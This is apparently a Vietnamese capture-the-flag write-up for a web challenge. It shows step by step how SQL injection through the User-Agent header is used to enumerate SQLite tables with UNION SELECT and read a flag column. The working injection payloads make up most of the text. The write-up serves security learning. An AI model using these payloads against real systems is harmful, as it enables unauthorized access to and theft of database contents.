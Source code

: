 https://battle.cookiearena.org/challenges/web/logger-middleware

1.	Kiểm tra xem trang web có hoạt động với giá trị bình thường hay không 
- Với payload:
  - User-Agent: aaa 
  - trang web hiển thị bình thường

![1](./img/23.png)

2.	Nhập giá trị bất thường xem web có validate giá trị không
- Với payload: 
  - User-Agent: aaa' 
  - trang web trả về nội dung:

![1](./img/24.png)
- Thấy được syntax của sql là (‘a’) với 6 giá trị trả về
- Xem ta có thể tiêm lệnh comment không, ta thực hiện với payload: 
  - User-Agent: aaa',null,null,null,null)--

![1](./img/25.png)
oke vậy là các giá trị đã được điền với giá trị null

3.	Thử với UNION để lấy được nhiều tên bảng chứa trong database hiện tại
- Payload: aaa',null,null,null,null) UNION SELECT 1,name,2,3,4,5 FROM sqlite_master WHERE type='table'-- 
  - giá trị name hoàn toàn có thể đứng ở vị trí bất kì trong các giá trị từ 1,2,..,6
  
![1](./img/26.png)
- Ta có 2 bảng là logger và flag vậy ta cần lấy các giá trị trong bảng flag
- Thử với payload: aaa',null,null,null,null) UNION SELECT 1,name,2,sql,4,5 FROM sqlite_master WHERE type='table'--
  - vì sql có chứa câu lệnh CREAT TABLE giúp ta xem bảng có chứa cột nào

![1](./img/27.png)
Vậy bảng flag chứa một cột secr3t_flag có khả năng cao chứa giá trị flag bên trong

- Vậy bảng flag chứa một cột secr3t_flag có khả năng cao chứa giá trị flag bên trong
4.	Lấy FLAG
- Payload: aaa',null,null,null,null) UNION SELECT 1, secr3t_flag,3,4,5,6 FROM flag--   

![1](./img/28.png)

